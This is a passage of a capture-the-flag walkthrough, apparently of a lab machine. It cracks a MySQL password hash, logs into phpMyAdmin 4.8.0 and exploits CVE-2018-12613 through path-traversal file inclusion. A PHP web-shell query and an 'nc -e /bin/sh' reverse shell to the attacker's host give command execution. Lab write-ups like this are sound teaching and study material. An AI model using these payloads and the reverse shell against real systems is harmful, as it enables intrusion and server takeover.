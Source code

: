 A [hashes.org search](https://hashes.org/search.php) gives the password:

```

MYSQL5 2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou

```

#### PHPMyAdmin

That username / password will get into the phpmyadmin site:

![1561706176995](https://0xdfimages.gitlab.io/img/1561706176995.png)

I can see the version is 4.8.0:

![1561706200364](https://0xdfimages.gitlab.io/img/1561706200364.png)

There’s an vulnerability in this version, [CVE-2018-12613](https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e). It’s a local file include (LFI) that allows for remote code execution (RCE).

The LFI is because there is an inconsistency in how `%3f` is handled in the security check and the include. I can visit `http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%3f/../../../../etc/passwd` and see the include works:

[![passwd](https://0xdfimages.gitlab.io/img/1561706568973.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1561706568973.png)

Now it’s just a matter of getting some php code I want to run on the site. I can do that by issuing a SQL query, and then including my php session info.

I’ll click on the “SQL” tab at the top, and enter the query:

```

SELECT '<?php system($_GET["cmd"]);?>'

```

Then I hit go:

![1561706788284](https://0xdfimages.gitlab.io/img/1561706788284.png)

Now, I’ll include my php session info. I’ll check burp to grab my `phpMyAdmin` cookie, and visit: `http://10.10.10.143/phpmyadmin/index.php?cmd=id&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_e3qctegac4saf72rocbl1541j26u7mqm`:

![1561707173193](https://0xdfimages.gitlab.io/img/1561707173193.png)

Now I can get a shell changing `cmd=id` to `cmd=nc -e /bin/sh 10.10.14.8 443`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:35900.
‍id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
